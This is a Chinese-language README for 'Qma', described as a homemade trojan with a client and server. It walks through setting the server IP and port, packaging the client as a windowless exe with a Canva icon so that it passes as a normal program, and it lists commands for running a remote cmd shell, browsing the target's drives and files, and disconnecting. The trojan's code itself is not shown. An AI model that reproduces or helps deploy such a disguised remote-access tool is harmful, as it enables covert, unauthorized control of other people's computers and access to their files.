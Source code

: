 # Qma
自制小木马，一个客户端，一个服务端（持续更新中...）

## 使用方法

### 1. 修改server.py

```
HOST = '172.29.41.16' #HOST为服务器IP，如果是公网服务器，要修改为公网服务器的内部ip
PORT = 65000  #端口
```

### 2.修改client.py

```
HOST = '172.29.41.16'  #服务器IP
PORT = 65000 #和服务器端口一致
```

设置完之后可以将client.py打包成exe更佳，打包方法

```
#在CMD输入，安装pyinstaller库
pip install pyinstaller -i https://pypi.tuna.tsinghua.edu.cn/simple/
#打包成exe
pyinstaller -F -w -i canva.ico client.py
```

### 3.运行server.py

```
python server.py
```

等待客户端启动



## 功能介绍

#### 1.启动客户端cmd功能

`cmdon`:

(例：查看对方C盘目录)

`dir /d /a C:`

![1](/image/1.png)

(例：打开记事本)

`notepad`

![1](/image/2.png)

(例：ping百度)

![1](/image/3.png)

关闭cmd

`cmdoff`

![1](/image/4.png)



#### 2.查看对方目录

使用dir命令太过繁琐

可以直接使用`tron`

打开功能

`tron`

![1](/image/5.png)

查看E盘文件，命令`E://`

![1](/image/6.png)

关闭功能

`troff`

![1](/image/7.png)

#### 3.主动关闭连接

命令`exit`

![1](/image/8.png)
